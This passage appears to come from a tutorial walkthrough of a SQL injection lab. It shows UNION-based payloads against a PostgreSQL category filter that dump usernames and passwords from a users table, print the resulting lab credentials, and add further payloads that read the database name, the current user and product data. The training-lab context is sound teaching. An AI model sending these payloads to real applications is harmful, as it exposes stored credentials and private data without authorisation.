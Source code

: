 ✅ Returns:
- `username`
- `password`
- `email`

> 📝 **Why This Works**:  
> - `information_schema.columns` holds metadata about table columns.
> - Filtering by `table_name='users'` gives us the exact fields in the `users` table.

### 🔹 Step 6: Craft Query to Combine Multiple Values in One Column

Since only the second column is visible, combine both `username` and `password` into a single string using **string concatenation**.

In PostgreSQL, use the `||` operator.

```http
GET /filter?category=' UNION SELECT NULL, username || '~' || password FROM users-- 
```

✅ Output:
```
administrator~68jy1v6acq9sxdjy14c4
carlos~pvj4s1x0tyzs60vx2aof
wiener~3h9a2z3j0fbh4ysvjp3g
```

> 📝 **How This Works**:
> - `username || '~' || password`: Concatenates two values together with a separator (`~`), making it easy to distinguish them later.
> - Placing this in the second column ensures it’s visible in the output.

## 🧠 Bonus: Get More Info Using Same Technique

Here are other useful payloads you can try:

### 🗂️ Get Current Database Name
```http
GET /filter?category=' UNION SELECT NULL, current_database()-- 
```

### 👤 Get Current User
```http
GET /filter?category=' UNION SELECT NULL, current_user-- 
```

### 📦 Dump Product Info (if `products` table exists)
```http
GET /filter?category=' UNION SELECT NULL, name || ' - $' || price::text FROM products-- 
```

## 📋 Summary of Payloads Used
